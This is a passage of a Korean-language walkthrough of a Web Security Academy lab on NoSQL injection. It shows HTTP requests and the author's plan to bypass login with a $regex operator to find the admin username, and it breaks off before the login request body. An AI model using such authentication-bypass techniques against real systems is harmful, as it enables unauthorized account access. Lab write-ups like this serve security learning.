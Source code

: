 서버에서 발급해주는 새로운 session값으로 서버에 접근해본다.

```
GET /my-account?id=carlos HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=rXTCwOyiYf48CnOh7RgCmFBvnQKCYmby
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

 carlos유저로 로그인이 되었다. 그런데 관리자 패널이 보이지 않는다. 문제가 풀렸다는 메세지도 출력되지 않는다. 이번 랩에서는 관리자가 다른 유저인 것 같다. 어쨋든 이 테스트로 페이로드 자체는 사용가능한 것을 확신하게 되었다. username의 종류를 늘려서 테스트를 계속하자. 관리자가 사용하는 username과 맞으면 로그인할 수 있을 것이다. 

 ![carlos유저 로그인](/images/burp-academy-nosqli-2-1.png)

 7. 그러나 몇 번 더 테스트해봐도 알 수 없었다. 발상을 바꿔본다. like검색을 하면 어떨까? SQL에서 `like 'admin%'` 과 같은 식으로 사용하는 것처럼 말이다. 구글에서 검색해보니 $regex가 동일하게 동작한다고 한다. 다음 요청을 보내본다. 

 ```http
 POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
 ```